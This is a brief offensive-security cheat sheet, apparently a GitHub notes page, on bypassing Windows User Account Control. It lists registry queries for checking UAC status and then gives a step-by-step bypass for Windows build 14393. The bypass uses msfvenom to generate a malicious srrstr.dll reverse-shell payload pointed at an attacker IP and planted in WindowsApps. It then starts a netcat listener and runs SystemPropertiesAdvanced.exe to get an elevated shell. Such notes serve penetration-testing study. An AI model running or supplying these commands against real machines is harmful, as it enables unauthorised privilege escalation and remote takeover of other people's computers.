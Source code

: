# User Account Control (UAC) Bypass

> UAC bypasses leverage flaws or unintended functionality in different Windows builds.
>
> The following repository contains many different UAC Bypassing Techniques: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

## Initial Enumeration

Check if UAC is enabled (0x1=true): `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`

Check the UAC level(0x5=max level): `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`

To check the Windows Build: `[environment]::OSVersion.Version`

Check [this](https://github.com/hfiref0x/UACME) repository and see if anything exists for the target build number

***

## **Example - UAC Bypass in Windows Build 14393**

1. We can basically bypass UAC by placing a malicious `srrstr.dll` DLL to the `WindowsApps` folder, which will be loaded in an elevated context
2. Generate malicious DLL file:\
   `msfvenom -p windows/shell_reverse_tcp LHOST=our-ip LPORT=listening-port -f dll > srrstr.dll`
3. Transfer the DLL on the target machine
4. Start a netcat listener on the attacker machine: `nc -lvnp 4444`
5. Get a reverse shell: `C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe`
